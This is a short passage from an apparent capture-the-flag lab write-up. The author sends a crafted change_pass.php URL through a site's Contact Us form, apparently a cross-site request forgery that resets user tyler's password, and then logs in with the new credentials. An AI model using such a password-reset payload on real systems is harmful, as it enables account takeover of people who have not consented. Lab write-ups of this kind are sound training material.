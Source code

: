 I might be able to reset his password. I send the following comment in the `Contact Us` form:

```
http://10.10.10.97/change_pass.php?password=aaaaaa&confirm_password=aaaaaa&submit=submit
```

I can now login with the credentials `tyler:aaaaaa`.

![](img/2020-11-29-21-25-05.png)

![](img/2020-11-29-21-25-16.png)
